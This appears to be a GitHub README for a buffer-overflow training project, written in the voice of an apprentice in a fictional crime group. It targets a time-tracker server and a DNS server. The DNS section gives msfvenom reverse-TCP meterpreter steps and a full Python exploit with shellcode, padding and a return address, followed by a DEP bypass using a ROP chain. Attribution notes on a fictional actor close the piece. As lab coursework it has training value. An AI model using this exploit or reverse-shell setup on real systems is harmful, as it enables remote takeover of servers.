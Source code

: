 # Buffer-Overflow

<h2>Description</h2>
Project consists of multiple buffer overflow attacks starting from various difficulty. All of them would be under my persona to fit into the russian crime group.
<br />

<h2>Languages and Utilities Used</h2>

- <b>Putty (Linux)</b>
- <b>Immunity Debugger</b>
- <b>Mona</b>
- <b>Metasploit</b>


<h2>Environments Used </h2>

- <b>Amazon WorkSpace</b>

<h2>Buffer Overflow:Launch shell</h2>


Gregor,

	After an analysis of the TimeTrackerServer.exe, the important command that guarantees to launch the server is inputting a username that has less than 35 characters. The hours do not impact the launch of the server. Command, abababababababababababababababababab 10090 will crash the server due to the 36 characters in the username. The server will catch an exception and try to spawn. The subroutine responsible for spawning the shell is sub_13781230.The memory address that gets overridden is located in sub_13781120. The original return address that gets overwritten is 1378115F.

CeleanaS00 (Helpful Apprentice)

<h2>Bufferoverflow exploit on DNS Server</h2>

Gregor,

I was able to spawn a reverse shell in the DNS server.  

To  run the exploit 

Use msfvemon to create a listening host and listening port for the script to reverse tcp
and the payload for the script.
msfvenom -p window/meterpreter/reverse_tcp LHOST=LInuxIPAddress -f python -a x86 -b “\x00”
Copy python script to nano. Crtl X + y to save the script (Ex:seh1)
After script is saved, open the dns server in command prompt or terminal. Cd into directory where DNS server is located. To open server using start dnsserver (port) command
Once the terminal or command prompt is open, you will then need to connect to the sever using nc (ip address) (port Number). Ctrl C, then run program. 
To run program use command ./(file). (Ex: ./seh1) 
In a separate, linux window, open metasploit using msfconsole. Download if needed. Use command msf>use/multi/handler and msf>exploit to listen in on the port. Typical port is 4444. Exploit will then gain root in the server. You will have three windows open.
To see the ip address and system info use command meterpreter>ipconfig and meterpreter>sysinfo. 

<b>Python script containing payload</b>

#!/usr/bin/python

import sys, socket

buf =  ""

buf += "\xbf\xcd\x6c\xd1\x3b\xdb\xd0\xd9\x74\x24\xf4\x5a\x2b"

buf += "\xc9\xb1\x54\x83\xea\xfc\x31\x7a\x0f\x03\x7a\xc2\x8e"

buf += "\x24\xc7\x34\xcc\xc7\x38\xc4\xb1\x4e\xdd\xf5\xf1\x35"

buf += "\x95\xa5\xc1\x3e\xfb\x49\xa9\x13\xe8\xda\xdf\xbb\x1f"

buf += "\x6b\x55\x9a\x2e\x6c\xc6\xde\x31\xee\x15\x33\x92\xcf"

buf += "\xd5\x46\xd3\x08\x0b\xaa\x81\xc1\x47\x19\x36\x66\x1d"

buf += "\xa2\xbd\x34\xb3\xa2\x22\x8c\xb2\x83\xf4\x87\xec\x03"

buf += "\xf6\x44\x85\x0d\xe0\x89\xa0\xc4\x9b\x79\x5e\xd7\x4d"

buf += "\xb0\x9f\x74\xb0\x7d\x52\x84\xf4\xb9\x8d\xf3\x0c\xba"

buf += "\x30\x04\xcb\xc1\xee\x81\xc8\x61\x64\x31\x35\x90\xa9"

buf += "\xa4\xbe\x9e\x06\xa2\x99\x82\x99\x67\x92\xbe\x12\x86"

buf += "\x75\x37\x60\xad\x51\x1c\x32\xcc\xc0\xf8\x95\xf1\x13"

buf += "\xa3\x4a\x54\x5f\x49\x9e\xe5\x02\x05\x53\xc4\xbc\xd5"

buf += "\xfb\x5f\xce\xe7\xa4\xcb\x58\x4b\x2c\xd2\x9f\xac\x07"

buf += "\xa2\x30\x53\xa8\xd3\x19\x97\xfc\x83\x31\x3e\x7d\x48"

buf += "\xc2\xbf\xa8\xe5\xc7\x57\x59\xfa\xa4\x8f\x35\xf8\x2a"

buf += "\xde\x99\x75\xcc\xb0\x71\xd6\x41\x70\x22\x96\x31\x18"

buf += "\x28\x19\x6d\x38\x53\xf3\x06\xd2\xbc\xaa\x7f\x4a\x24"

buf += "\xf7\xf4\xeb\xa9\x2d\x71\x2b\x21\xc4\x85\xe5\xc2\xad"

buf += "\x95\x11\xb3\x4d\x66\xe1\x5e\x4e\x0c\xe5\xc8\x19\xb8"

buf += "\xe7\x2d\x6d\x67\x18\x18\xed\x60\xe6\xdd\xc4\x1b\xd0"

buf += "\x4b\x69\x74\x1c\x9c\x69\x84\x4a\xf6\x69\xec\x2a\xa2"

buf += "\x39\x09\x35\x7f\x2e\x82\xa3\x80\x07\x76\x64\xe9\xa5"

buf += "\xa1\x42\xb6\x56\x84\xd1\xb1\xa9\x5a\xf7\x19\xc2\xa4"

buf += "\xb7\x99\x12\xcf\x37\xca\x7a\x04\x18\xe5\x4a\xe5\xb3"

buf += "\xae\xc2\x6c\x55\x1c\x72\x70\x7c\xc0\x2a\x71\x72\xd9"

buf += "\x3b\xfc\x75\xde\x43\xfe\x4a\x08\x7a\x74\x8b\x88\x39"

shellcode= "A" * 2003 + "\x3f\x12\x50\x62" + "\x90" *32 + buf

try:
            	s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            	s.connect(('10.0.2.50',1234)
            	payload = "GETD /.:/" + shellcode
            	s.send((payload))
            	s.close()

except:
            	print "Error connecting to server"
            	sys.exit()

<p align="center">
Script<br/>
<img src=https://s3.amazonaws.com/gbstool/submissions2020/267519/meterpreter%20ip.PNG?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20240301T145024Z&X-Amz-SignedHeaders=host&X-Amz-Expires=36900&X-Amz-Credential=AKIAJBIZLMJQ2O6DKIAA%2F20240301%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Signature=874a4b41771afbf521680dbc012808fc69da944de0b46845ce5b668597093376
<br />


<p align="center">
Script<br/>
<img src=https://s3.amazonaws.com/gbstool/submissions2020/267519/meterpreter%20os.PNG?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20240301T143835Z&X-Amz-SignedHeaders=host&X-Amz-Expires=36900&X-Amz-Credential=AKIAJBIZLMJQ2O6DKIAA%2F20240301%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Signature=53f67dda9fef3ea44aa4fdcc155eed948f794133f5e8aaae6aa93568e4cc3c68
<br />

<h2>Bypass DEP: Buffer Overflow</h2>

The original exploit failed because when creating the script I had turned off the DEP to make it easier to overflow the dns server. When the host switched, the original script would not work if the DEP was enabled.

In order to fix this, I used a rop chain to bypass the dep in mona. Then, I copied the code to then make changes to my script. I added the rop chain code to my script. The new script used the rop chain padding and a new shellcode to ensure we can bypass the dep on the new dns server (see dep bypass code image). 

Proof of successful connection can be found below.

<p align="center">
Script<br/>
<img src=https://s3.amazonaws.com/gbstool/submissions2020/267817/dep%20bypass%20code.PNG?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20240301T145129Z&X-Amz-SignedHeaders=host&X-Amz-Expires=36900&X-Amz-Credential=AKIAJBIZLMJQ2O6DKIAA%2F20240301%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Signature=f09b6a8d4c328c4cb349d63d231ad948eabd025e808b16795e53196fcdf151d2
<br />

<p align="center">
Script<br/>
<img src=https://s3.amazonaws.com/gbstool/submissions2020/267817/dep%20bypass%20code2.PNG?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20240301T145129Z&X-Amz-SignedHeaders=host&X-Amz-Expires=36900&X-Amz-Credential=AKIAJBIZLMJQ2O6DKIAA%2F20240301%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Signature=962486ae91a6864f50388cc0ae7a51efb48bf83540623725bae04798b59a6127
<br />

<p align="center">
Script<br/>
<img src=https://s3.amazonaws.com/gbstool/submissions2020/267817/dep%20bypas%20code3.PNG?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20240301T145129Z&X-Amz-SignedHeaders=host&X-Amz-Expires=36900&X-Amz-Credential=AKIAJBIZLMJQ2O6DKIAA%2F20240301%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Signature=de5b05e8eceed3e46254a4723d15a19a59b93f56108d4458ee99fff60db889fb
<br />

<p align="center">
Script<br/>
<img src=https://s3.amazonaws.com/gbstool/submissions2020/267817/dep%20connection.PNG?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20240301T145129Z&X-Amz-SignedHeaders=host&X-Amz-Expires=36900&X-Amz-Credential=AKIAJBIZLMJQ2O6DKIAA%2F20240301%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Signature=11756dbeda107177f8d8a4f89131c9946200d60b63365fa7a6127b9fa88c0f0c
<br />

<p align="center">
Script<br/>
<img src=https://s3.amazonaws.com/gbstool/submissions2020/267817/dep%20connection.PNG?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Date=20240301T145129Z&X-Amz-SignedHeaders=host&X-Amz-Expires=36900&X-Amz-Credential=AKIAJBIZLMJQ2O6DKIAA%2F20240301%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Signature=11756dbeda107177f8d8a4f89131c9946200d60b63365fa7a6127b9fa88c0f0c
<br />


<h3>Attribution Actor information</h3>

He uses an encryption company or application, India 59[.]162[.]204[.]86 NAM01-BN3-obe[.]outbound[.]hushcrypt[.]com, and a google source, US 66[.]249[.]93[.]111, that is hosting the mail to disguise his information Also, Gregor seems to value secrecy as shown by his email header Gregor007. The 007 references a famous movie spy.
